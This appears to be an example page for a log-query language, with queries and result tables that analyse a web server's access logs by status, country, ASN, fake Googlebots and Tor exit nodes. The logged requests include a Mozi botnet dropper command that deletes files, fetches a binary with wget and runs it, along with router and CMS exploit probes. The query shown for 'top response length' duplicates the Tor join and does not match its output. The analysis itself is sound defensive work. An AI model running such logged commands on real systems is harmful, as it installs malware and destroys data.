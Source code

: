 # query_hits_by_status_range.sx
```jsx
@[./view/view_default.sx]
| select(
  day:timestamp[1 day],
  total:count(*),
  status_200:count(response=200),
  status_1xx:count(response between 100 and 199),
  status_2xx:count(response between 200 and 299),
  status_3xx:count(response between 300 and 399),
  status_4xx:count(response between 400 and 499),
  status_5xx:count(response between 500 and 599)
)
| group(day)
| select(*, fail_4xx_ratio:ROUND(10000.0*status_4xx/total)/100.0)
```

| day                             | total | status_200 | status_1xx | status_2xx | status_3xx | status_4xx | status_5xx | fail_4xx_ratio |
|---------------------------------|------:|-----------:|-----------:|-----------:|-----------:|-----------:|-----------:|---------------:|
| `2020‑06‑01 00:00:00.000 +0300` |    70 |         44 |          0 |         44 |          0 |         26 |          0 |          37.14 |
| `2020‑06‑02 00:00:00.000 +0300` |   148 |         99 |          0 |         99 |          0 |         49 |          0 |          33.11 |
| `2020‑06‑03 00:00:00.000 +0300` |   114 |         88 |          0 |         88 |          0 |         26 |          0 |          22.81 |
| `2020‑06‑04 00:00:00.000 +0300` |  1091 |         80 |          0 |         80 |          0 |       1010 |          1 |          92.58 |
| `2020‑06‑05 00:00:00.000 +0300` |  1098 |        101 |          0 |        101 |          0 |        996 |          1 |          90.71 |
| `2020‑06‑06 00:00:00.000 +0300` |   132 |         63 |          0 |         63 |          0 |         69 |          0 |          52.27 |
| `2020‑06‑07 00:00:00.000 +0300` |   162 |         90 |          0 |         90 |          0 |         72 |          0 |          44.44 |
| `2020‑06‑08 00:00:00.000 +0300` |   160 |         85 |          0 |         85 |          1 |         74 |          0 |          46.25 |
| `2020‑06‑09 00:00:00.000 +0300` |  1079 |         86 |          0 |         86 |          1 |        992 |          0 |          91.94 |
| `2020‑06‑10 00:00:00.000 +0300` |   118 |         90 |          0 |         90 |          0 |         28 |          0 |          23.73 |
| `2020‑06‑11 00:00:00.000 +0300` |   184 |         99 |          0 |         99 |          0 |         85 |          0 |           46.2 |
...

# query_clientip_metainfo.sx
```jsx
@[./view/view_default.sx]
| select(clientIp, cc(clientIp), asname(clientIp), geo(clientIp), *)
```

| clientIp          | cc | asname                          | geo               | host            | ident  | auth   | timestamp                       | verb | uri                                                                                           | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                               | extra  |
|-------------------|----|---------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|-----------------------------------------------------------------------------------------------|------------:|----------------|---------:|------:|---------------------------|---------------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | US | AS63949 Linode, LLC             | 37.5625,‑122.0004 | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36      | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `162.243.143.216` | US | AS14061 DIGITALOCEAN‑ASN        | 37.7353,‑122.3732 | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list                                                                            |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                               | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:52:36.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `185.172.111.210` | NL | AS206898 Server Hosting Pty Ltd | 52.3824,4.8995    | 185.172.111.210 | *null* | *null* | `2020‑06‑01 08:05:34.000 +0300` | POST | /GponForm/diag_Form?style/                                                                    |         1.1 | *null*         |      404 |  1989 | ‑                         | curl/7.3.2                                                                                                          | *null* |
| `223.149.176.156` | CN | AS4134 Chinanet                 | 25.2239,112.1703  | 223.149.176.156 | *null* | *null* | `2020‑06‑01 08:10:23.000 +0300` | GET  | /shell?cd+/tmp;rm+‑rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws |         1.1 | *null*         |      404 |   493 | ‑                         | Hello, world                                                                                                        | *null* |
| `167.172.30.56`   | US | AS14061 DIGITALOCEAN‑ASN        | 40.8364,‑74.1403  | 167.172.30.56   | *null* | *null* | `2020‑06‑01 08:29:40.000 +0300` | GET  | /                                                                                             |         1.0 | *null*         |      200 |   257 | ‑                         | Mozilla/5.0 (compatible; NetcraftSurveyAgent/1.0; +info@netcraft.com)                                               | *null* |
| `128.14.134.134`  | CN | AS21859 ZNET                    | 34.7725,113.7266  | 128.14.134.134  | *null* | *null* | `2020‑06‑01 08:52:27.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 | *null* |
| `198.20.103.178`  | NL | AS32475 SINGLEHOP‑LLC           | 52.3521,4.9138    | 198.20.103.178  | *null* | *null* | `2020‑06‑01 08:54:13.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |  1489 | ‑                         | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 | *null* |
| `192.99.34.42`    | CA | AS16276 OVH SAS                 | 43.6319,‑79.3716  | 192.99.34.42    | *null* | *null* | `2020‑06‑01 09:01:02.000 +0300` | GET  | /wp‑login.php                                                                                 |         1.1 | *null*         |      400 |     0 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.80 Safari/537.36       | *null* |
| `192.99.34.42`    | CA | AS16276 OVH SAS                 | 43.6319,‑79.3716  | 192.99.34.42    | *null* | *null* | `2020‑06‑01 09:01:14.000 +0300` | GET  | /robots.txt                                                                                   |         1.1 | *null*         |      400 |     0 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.80 Safari/537.36       | *null* |
...

# query_top_countries.sx
```jsx
@[./view/view_default.sx]
| select(count(*), cc(clientIp))
| group(cc)
| sort(count desc)
```

| count | cc |
|------:|----|
|  4743 | CN |
|  4165 | US |
|  1937 | RU |
|  1837 | TW |
|  1115 | GB |
|  1053 | KR |
|  1028 | DE |
|   481 | NL |
|   423 | RO |
|   210 | PS |
|   198 | CH |
...

# query_find_fake_google_bots.sx
```jsx
@[./view/view_default.sx]
| select(ASN(clientIp), *)
| filter(  agent like '%Googlebot/%'
		or agent like 'AdsBot-Google/%'
		or agent like '%AdsBot-Google-Mobile;%'
		or agent like '%Google-Ads-Overview%'		
		)
| filter_out(asn = 15169)		
| select(asname(clientIp), geo(clientIp), cc(clientIp), agent, *)
```

| asname                      | geo            | cc | agent                                                                    |   asn | clientIp       | host         | ident  | auth   | timestamp                       | verb | uri      | httpversion | invalidRequest | response | bytes | referrer | extra  |
|-----------------------------|----------------|----|--------------------------------------------------------------------------|------:|----------------|--------------|--------|--------|---------------------------------|------|----------|------------:|----------------|---------:|------:|----------|--------|
| AS64425 SKB Enterprise B.V. | 52.3759,4.8975 | NL | Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html) | 64425 | `5.182.210.16` | 5.182.210.16 | *null* | *null* | `2020‑08‑07 15:44:40.000 +0300` | GET  | /api.php |         1.1 | *null*         |      404 |   437 | ‑        | *null* |

# query_top_response_len.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| timestamp                       | clientIp         | verb   |      bytes | uri                    | host           | ident  | auth   | httpversion | invalidRequest | response | referrer | agent                                                                        | extra  |
|---------------------------------|------------------|--------|-----------:|------------------------|----------------|--------|--------|------------:|----------------|---------:|----------|------------------------------------------------------------------------------|--------|
| `2020‑06‑04 23:43:13.000 +0300` | `183.83.145.187` | GET    | 6529322873 | /secret1337/backup.tgz | 183.83.145.187 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 | *null* |
| `2020‑06‑13 20:36:48.000 +0300` | `172.105.89.161` | GET    |  239233441 | /secret1337/mysql.sql  | 172.105.89.161 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 zgrab/0.x                                                        | *null* |
| `2020‑06‑25 20:22:14.000 +0300` | `217.18.21.2`    | *null* |       3681 | *null*                 | 217.18.21.2    | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑25 15:59:32.000 +0300` | `90.191.124.115` | *null* |       3665 | *null*                 | 90.191.124.115 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3221 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3218 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3217 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3217 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑09 14:35:50.000 +0300` | `52.3.226.210`   | *null* |       3215 | *null*                 | 52.3.226.210   | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
...

# join_with_tor_exit_nodes.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| tor_ip            | tor_time                        | tor_id                                   | clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer | agent                                                                                                              | extra  |
|-------------------|---------------------------------|------------------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|----------|--------------------------------------------------------------------------------------------------------------------|--------|
| `185.220.102.6`   | `2020‑08‑12 13:23:50.000 +0300` | A2DB293FFC5A76A718863BF1AEDBC8DFB1CB1097 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.220.102.6`   | `2020‑08‑12 12:57:46.000 +0300` | A2534EF23390CAE079B1586F0FDF9CE11F556062 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |  1813 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   520 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `185.220.101.203` | `2020‑08‑12 13:06:15.000 +0300` | C8F6F6C1834454F1E927A4A05E8E54EB623D4B73 | `185.220.101.203` | 185.220.101.203 | *null* | *null* | `2020‑06‑19 20:26:05.000 +0300` | GET  | /async/                   |         1.1 | *null*         |      404 |   493 | ‑        | Mozilla/5.0 (Windows ME 4.9; rv:31.0) Gecko/20100101 Firefox/31.7                                                  | *null* |
| `23.129.64.217`   | `2020‑08‑12 12:33:20.000 +0300` | D43EF31799FDCE5A235D1E76F4324C00F6804B05 | `23.129.64.217`   | 23.129.64.217   | *null* | *null* | `2020‑06‑27 22:11:47.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   238 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `150.129.8.12`    | `2020‑08‑12 13:07:46.000 +0300` | 1970C3CE0F945DA0D16DF5191DC8B0483A421A75 | `150.129.8.12`    | 150.129.8.12    | *null* | *null* | `2020‑06‑30 07:21:02.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
| `150.129.8.27`    | `2020‑08‑12 12:35:07.000 +0300` | 5F1381FA3963CAAF712235CA34D6B15FDDF14966 | `150.129.8.27`    | 150.129.8.27    | *null* | *null* | `2020‑07‑01 23:29:12.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
| `145.239.91.37`   | `2020‑08‑12 13:22:12.000 +0300` | 96D4C61DB5B38EC7ABE3DB9BB87A97A8587B8087 | `145.239.91.37`   | 145.239.91.37   | *null* | *null* | `2020‑07‑02 14:14:32.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
| `23.129.64.205`   | `2020‑08‑12 13:23:55.000 +0300` | 6EEF8446BF9D43DA7F7D8505BDFC49BBE64BF822 | `23.129.64.205`   | 23.129.64.205   | *null* | *null* | `2020‑07‑03 07:25:48.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   238 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.130.44.108`  | `2020‑08‑12 13:07:01.000 +0300` | D8A1F5A8EA1AF53E3414B9C48FE6B10C31ACC9B2 | `185.130.44.108`  | 185.130.44.108  | *null* | *null* | `2020‑07‑04 03:44:04.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
...
